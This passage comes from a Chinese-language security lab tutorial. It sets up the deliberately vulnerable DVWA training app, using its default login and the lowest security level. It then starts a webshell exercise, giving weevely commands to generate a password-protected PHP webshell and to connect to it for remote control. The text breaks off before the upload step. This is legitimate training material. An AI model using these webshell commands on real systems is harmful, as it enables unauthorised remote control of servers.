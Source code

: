 点击 DVMA 我们便可进入到 DVMA 的登陆页面，默认的登陆用户与密码是 admin 与 password，登陆之后便会进入这样的页面：

![dvwa-index.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139587112.png/wm)

为了能够进行最简单的攻击，我们会把安全默认调制最低，首先进入安全模式的调整页面：

![dvwa-config-security.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139662479.png/wm)

然后调整安全的 level 到 low：

![dvwa-config-security-1.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139678741.png/wm)

当看到页面的下方 Level 的显示变化后，说明修改成功了：

![dvwa-config-security-proof.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139693059.png/wm)

### 5.4 Webshell 实战

做好一切准备工作之后我们便开始我们的攻击。

我们的攻击主要是：

- 使用 weevely 生成 webshell 
- 通过上传漏洞上传 webshell
- 建立连接，远程操控，验证 webshell

所以我们第一步便是使用 weevely 生成 webshell。

在 kali 中输入 `weevely` 命令命令我们可以看到：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481009912564.png-wm)

显示了 weevely 的版本信息，已经常用的参数用法：

```
# 连接 webshell 程序
weevely <URL> <password> [cmd]
 
# 加载 创建好的连接通道、session 会话
weevely session <path> [cmd]

# 生成 webshell 程序
weevely generate <password> <path>
```

所以首先我们需要做的便是通过 weevely generate 来生成我们的 webshell 文件：

```
weevely generate shiyanlou /var/www/html/webshell.php
```

![show-generate](https://doc.shiyanlou.com/document-uid113508labid2436timestamp1483274487502.png/wm)

这条命令中的各个参数，所代表的含义分别为：

| 参数名称                     | 参数代表含义                                                 |
| ---------------------------- | ------------------------------------------------------------ |
| `shiyanlou`                  | weevely 连接木马，创建会话，需要密码验证， `shiyanlou` 为连接会话时，所需要输入的密码。 |
| `/var/www/html/webshell.php` | 在攻击者的本地环境中，指定生成木马文件的具体位置，这里为 `/var/www/html/` 文件夹下，即 apache 的根目录中。 |
